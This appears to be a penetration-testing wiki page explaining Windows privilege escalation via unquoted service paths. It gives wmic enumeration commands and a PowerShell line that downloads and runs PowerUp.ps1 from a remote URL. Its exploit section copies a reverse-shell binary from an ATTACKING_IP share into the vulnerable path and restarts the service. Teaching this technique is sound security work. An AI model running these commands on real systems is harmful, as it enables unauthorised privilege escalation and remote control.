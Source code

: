 ```yaml
---
description: MITRE ATT&CK™ - Hijack Execution Flow Path Interception by Unquoted Path  -
  Technique T1574.09
---
```


# Unquoted Service Path

# Theory

Windows privilege escalation through unquoted service paths is a common vulnerability that occurs when a service executable file is installed in a directory path that contains spaces but is not surrounded by quotation marks.
When Windows starts a service, it looks for the executable file based on the service's configuration. If the path to the executable contains spaces and is not enclosed in quotation marks, Windows may interpret the path incorrectly. In such cases, Windows will try to locate the executable using a combination of the directory names and filenames in the path, which can result in unintended files being executed.  

Here's an example to illustrate this, consider we have the following executable path:
```
C:\Program Files\A Subfolder\B Subfolder\C Subfolder\VulnSvc.exe
```
In order to run SomeExecutable.exe, the system will interpret this path in the following order:
  - C:\Program.exe
  - C:\Program Files\A.exe
  - C:\Program Files\A Subfolder\B.exe
  - C:\Program Files\A Subfolder\B Subfolder\C.exe
  - C:\Program Files\A Subfolder\B Subfolder\C Subfolder\VulnSvc.exe

# Practice 

{% tabs %}
{% tab title="Enum" %}
We can use wmic to enumerate it:
```powershell
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """

wmic service get name,displayname,startmode,pathname | findstr /i /v "C:\Windows\\" |findstr /i /v """

gwmi -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.StartMode -eq "Auto" -and $_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '"*'} | select PathName,DisplayName,Name
```

Alternativly, we can use `Invoke-AllChecks` from PowerUp
```powershell
powershell.exe -nop -exec bypass "IEX (New-Object Net.WebClient).DownloadString('https://your-site.com/PowerUp.ps1'); Invoke-AllChecks"
```
{% endtab %}

{% tab title="Exploit" %}
You can check if you have write acces to a folder with `icacls`
```powershell
icacls "C:\Program Files\A Subfolder\"
```

If you can write to it, you can place your binary like:
```powershell
copy \\ATTACKING_IP\Share\reverse.exe C:\Program Files\A Subfolder\B.exe  
```

And then, restart the service
```powershell
#Using wmic
wmic service <Service_Name> call stopservice
wmic service <Service_Name> call startservice

#Using net
net stop <Service_Name> && net start <Service_Name>

#Using sc.exe
sc stop <Service_Name>
sc start <Service_Name>
```
{% endtab %}
{% endtabs %}

## References

{% embed url="https://medium.com/@SumitVerma101/windows-privilege-escalation-part-1-unquoted-service-path-c7a011a8d8ae" %}

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#eop---unquoted-service-paths" %}
